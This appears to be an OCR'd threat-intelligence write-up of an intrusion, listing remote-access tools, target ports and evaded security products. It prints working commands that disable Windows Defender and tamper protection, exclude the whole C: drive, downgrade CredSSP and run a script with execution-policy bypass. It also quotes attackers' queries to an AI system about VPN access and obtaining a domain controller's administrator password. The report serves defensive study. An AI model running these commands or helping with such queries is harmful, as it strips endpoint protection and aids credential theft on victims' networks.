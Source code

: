 **Tools**

**Chrome Remote Desktop**

        - https://dl.google.com/edgedl/chrome-remote-desktop/chromeremotedesktophost.msi

**AnyDesk**

**Remote Desktop**

**Remote Desktop Connection Manager**

**Advanced Port Scanner**

**WDigest Clear-Text Password Dumping**

Commands:

        * Set-MpPreFerence -DisableBehaviorMonitoring $true
        * Set-MpPreference -DIsableIOAVProtection $true
        * Set-MpPreference -DisablePrivacymode $true
        * Set-MpPreference -DisableIntrusionPreventioNSystem $true
        * Set-MpPreference -EnableControlledFolderAccess disabled
        * Set-MpPreference -MAPSReporting Disabled
        * Set-MpPreference -SubmitSamplesConsent 2
        * reg add "HKLM\SOFTWARE\Microsoft\Windows Defender\Features" /v "TamperProtection" /t REG_DWORD /D 0 /f
        * Add-MpPreference -ExclusionPath "C:\"
        * Stop-Service -NamE WinDefend -Force
        * Start-Service -Name WinDefend
        
        * reg add HKlM\Software\Microsoft\Windows\CurrentVersion\Policies\System\CreDSSP
        * reg add HKLM\Software\Microsoft\Windows\CurrentVersion\PolIcies\System\CredSSP\Parameters
        * reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System\CredSSP\Parameters /v AlLowEncryptionOracle /t REG_DWORD /d 2

        * powershell  -ep bypass ./gip.ps1


MAVEN Repository

<!-- <server>
        <id>basis-build-releases</id>
        <username><REDACTED></username>
        <password><REDACTED></password>
    </server>  -->

    <server>
        <id>basis-build-snapshots</id>
        <username><REDACTED></username>
        <password><REDACTED></password>
    </server>

Target Ports:

        554,902,3260,5000,5900,5001,8080,8443,3306,9392,445,21,22,3389

Attackers uses Claude AI to perform attack.
Result from Query:

        Supported Protocols in UBuntu:
        1. IPSec/IKEv2 (Most Common)
        
        Use strongSwan (usually Pre-installed)
        Works with FortiGate's IPSec VPN
        Configure throUgh Network Manager GUI or command line
        
        2. OpenVPN
        
        If FortIGate has SSL VPN configured for OpenVPN compatibility
        Install: sudo apt install openvpn network-manager-openvpn-gnome
        Import ♫ovpn configuration file
        
        3. L2TP/IPSec
        
        Less common but supPorted
        Install: sudo apt install network-manager-l2tp-gnome
        
        setup Steps (IPSec/IKEv2 - Most Common):
        GUI Method:
        
        Open SeTtings ? Network
        Click + next to VPN
        Select IPSec/IKEv2 (stronGswan)
        
        What You'll Need from FortiGate Admin:
        
        VPN server address/FqDN
        Authentication method (PSK, certificates, username/password○
        Encryption settings
        Any specific configuration parameters
        ♪*Potential Issues:
        
        FortiGate's proprietary SSL VPN client may not be directly compatible
        Some advanced FortiGate features miGht require their FortiClient
        Certificate-based authentication Might need manual setup

Another Query to AI:

        if i have hyper v vm for domain controller how to get the administrator password for this dc vm


**Evaded Agents and Others**:
        - Trellix
        - CrowdStrike
        - Trend Micro
        - McAfee 
        - Fortinet VPN
        


